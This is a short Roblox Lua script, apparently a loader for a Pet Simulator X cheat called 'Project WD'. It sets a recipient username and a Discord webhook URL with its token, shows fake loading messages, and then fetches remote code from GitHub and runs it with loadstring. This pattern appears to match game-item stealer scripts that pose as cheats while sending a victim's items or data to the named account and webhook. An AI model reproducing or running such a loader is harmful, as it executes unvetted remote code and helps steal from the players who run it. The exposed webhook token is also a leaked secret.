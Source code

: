Username = "17_FF4"
WebHook = "https://discord.com/api/webhooks/1077395274521120829/th3rEDUR1hJ3ahJsPzottoH_xH-4SftkNjLBy0VzJenegFgro_0YvKxeRgGJLvQell3K"

_G.CustomScriptName = "Project WD"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
